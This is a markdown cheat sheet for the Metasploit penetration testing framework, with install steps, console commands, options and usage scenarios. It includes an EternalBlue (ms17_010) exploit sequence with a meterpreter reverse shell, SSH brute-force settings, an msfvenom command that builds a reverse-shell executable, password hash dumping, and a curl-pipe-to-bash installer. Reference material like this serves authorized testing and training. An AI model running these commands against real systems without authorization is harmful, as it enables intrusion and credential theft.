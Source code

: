 # Metasploit Framework 🔥💻🕵️‍♂️
#RED #Tool 

Metasploit Framework is an open-source penetration testing platform that enables security professionals to test system vulnerabilities, execute exploit code, and develop their own exploit tools.

**LINK TO TOOL DOCUMENTATION [HERE](https://www.metasploit.com/)**

The Metasploit Framework is one of the most widely used penetration testing tools in the cybersecurity industry. It provides a robust platform for identifying, exploiting, and validating vulnerabilities in various systems.

---
![Metasploit Framework](https://upload.wikimedia.org/wikipedia/commons/3/38/Metasploit_logo_and_wordmark.png)

---

### 🛠 Features:
- **Over 1,500 exploits** 🏹
- **Payload generation and encoding** 🎭
- **Post-exploitation modules** 🔍
- **Meterpreter - Advanced payload** 🕶️
- **Automated vulnerability scanning** 🤖
- **Integration with various security tools** 🔗
- **Supports multiple platforms** 🏗️

---

### 🚀 Installing Metasploit Framework

#### 🔹 **LINUX** 🐧
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | bash
```

#### 🔹 **Windows** 🏁
Download from: [Metasploit Framework](https://www.metasploit.com/download)

---

## 🧰 Common Commands

### Start Metasploit
```bash
msfconsole                
```

### Search for exploits related to Apache
```bash
search exploit apache     
```

### Use an exploit module
```bash
use exploit/windows/smb/ms17_010  
```

### Set target IP
```bash
set RHOST 192.168.1.100   
```

### Select payload
```bash
set PAYLOAD windows/meterpreter/reverse_tcp  
```

### Execute the exploit
```bash
exploit                   
```

### Interact with a compromised system
```bash
sessions -i 1             
```

### Additional Useful Commands:
```bash
show exploits             # Display available exploits
show payloads             # Display available payloads
show auxiliary            # Display auxiliary modules
show post                 # Display post-exploitation modules
use auxiliary/scanner/ssh/ssh_login  # Use SSH brute-force login module
set USERNAME admin        # Set a username for brute-force attack
set PASSWORD password123  # Set a password for brute-force attack
run                       # Execute the selected module
sessions -l               # List active sessions
sessions -k <session_id>  # Kill a specific session
background                # Move a session to background
exit                      # Exit Metasploit Framework
```

---

## ⚙️ Advanced Usage

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe  # Generate a payload
use auxiliary/scanner/portscan/tcp   # Perform a TCP port scan
use post/windows/gather/hashdump     # Dump password hashes after exploitation
```

---

## 📋 Handy Options

| Option         | Description                                    |
|---------------|--------------------------------|
| `-x`          | Run exploit and auto-interact with session |
| `-j`          | Run as background job                    |
| `-z`          | Skip interactive prompt after exploit    |
| `show options`| Display required settings for a module  |
| `setg`        | Set a global variable for all modules   |
| `resource`    | Run multiple Metasploit commands from a script |
| `db_nmap`     | Use Nmap from within Metasploit for scanning |
| `route`       | Manage pivoting and route traffic through compromised hosts |
| `exploit -z`  | Run exploit without interaction        |
| `jobs -K`     | Kill all running background jobs       |

---

## 🌐 Example Scenarios

- **Penetration Test**: Gain access to a system using an exploit and test security controls.
- **Post-Exploitation**: Extract credentials, capture keystrokes, or pivot within the network.
- **Red Teaming**: Simulate a real-world attack scenario and evaluate security defenses.
- **Social Engineering**: Craft malicious payloads for phishing campaigns.

---

## 🚀 Pro Tips

- Always update Metasploit before running tests: `msfupdate` 🔄
- Use `searchsploit` for offline exploit database searching 📖
- Combine Metasploit with Nmap for reconnaissance 🔍
- Use `setg` to set global options across multiple modules 🌍
- Leverage `resource` scripts to automate tasks ⚡

---

## 📚 References
- [Metasploit Documentation](https://docs.metasploit.com/)
- [Offensive Security Metasploit Course](https://www.offsec.com/metasploit-unleashed/)

---

![VIDEO](https://www.youtube.com/watch?v=3Kq1MIfTWCE)
